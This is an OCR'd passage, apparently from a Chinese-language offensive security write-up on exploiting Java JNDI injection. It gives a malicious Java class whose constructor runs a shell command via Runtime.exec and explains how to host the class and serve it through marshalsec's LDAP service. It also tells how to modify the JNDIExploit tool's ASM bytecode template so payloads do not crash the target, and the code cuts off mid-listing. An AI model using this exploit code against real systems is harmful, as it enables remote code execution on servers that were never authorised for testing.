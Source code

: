 ```php
public class CommandRaw extends AbstractTranslet implements javax.naming.spi.ObjectFactory{
    private static String cmd = "open -a Calculator";

    public CommandRaw() {
        String[] var1;
        if (File.separator.equals("/")) {
            var1 = new String[]{"/bin/bash", "-c", cmd};
        } else {
            var1 = new String[]{"cmd", "/C", cmd};
        }

        try {
            Runtime.getRuntime().exec(var1);
        } catch (IOException var3) {
            var3.printStackTrace();
        }

    }

    public void transform(DOM var1, SerializationHandler[] var2) throws TransletException {
    }

    public void transform(DOM var1, DTMAxisIterator var2, SerializationHandler var3) throws TransletException {
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable environment) throws Exception {
        return new Object();
    }
}
```

编译好 class 后放到 web 网站根目录下。然后用 `marshalsec` 启动对应的 ldap 服务。

弱对抗环境下，也可以直接用其他师傅集成的工具，比如 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit)。

为了让程序不抛错退出，需要针对性的修改用到的代码，比如修改 `JNDIExploit/src/main/java/com/feihong/ldap/template/CommandTemplate.java` 文件，让其返回的 class 字节码继承 `javax.naming.spi.ObjectFactory` 接口。

比如用下面的代码替换原来 `CommandTemplate.java` 文件中的 `generate` 方法：

```php
public void generate(){
    ClassWriter cw = new ClassWriter(0);
    FieldVisitor fv;
    MethodVisitor mv;
    AnnotationVisitor av0;

    cw.visit(V1_6, ACC_PUBLIC + ACC_SUPER, className, null, "com/sun/org/apache/xalan/internal/xsltc/runtime/AbstractTranslet", new String[]{"javax/naming/spi/ObjectFactory"});

    {
        fv = cw.visitField(ACC_PRIVATE + ACC_STATIC, "cmd", "Ljava/lang/String;", null, null);
        fv.visitEnd();
    }
    {
        mv = cw.visitMethod(ACC_PUBLIC, "<init>", "()V", null, null);
        mv.visitCode();
        Label l0 = new Label();
        Label l1 = new Label();
        Label l2 = new Label();
        mv.visitTryCatchBlock(l0, l1, l2, "java/io/IOException");
        Label l3 = new Label();
```